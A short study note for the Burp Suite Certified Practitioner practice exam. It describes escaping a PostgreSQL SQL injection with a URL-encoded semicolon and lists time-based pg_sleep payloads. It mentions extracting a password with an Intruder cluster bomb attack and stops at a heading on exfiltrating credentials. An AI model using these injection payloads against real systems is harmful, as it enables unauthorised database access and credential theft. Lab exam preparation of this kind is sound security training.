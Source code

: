 > In the Burp Practice exam stage 2 the SQL injection is escaped not using single quote `'` but using a semicolon `;` and then URL encoding it as `%3B`.

```sql
; = %3B
%3BSELECT+pg_sleep(7)--
//en mayusculas tambien -> SIII
';SELECT PG_SLEEP(5)--
```

![](Pasted%20image%2020250222201559.png)

> With a Intruder CLUSTER bomb attack the password can be extracted in one single attack with two payload positions in the below payload.

## PostgreSQL exfiltrate credentials exam **BSCP**
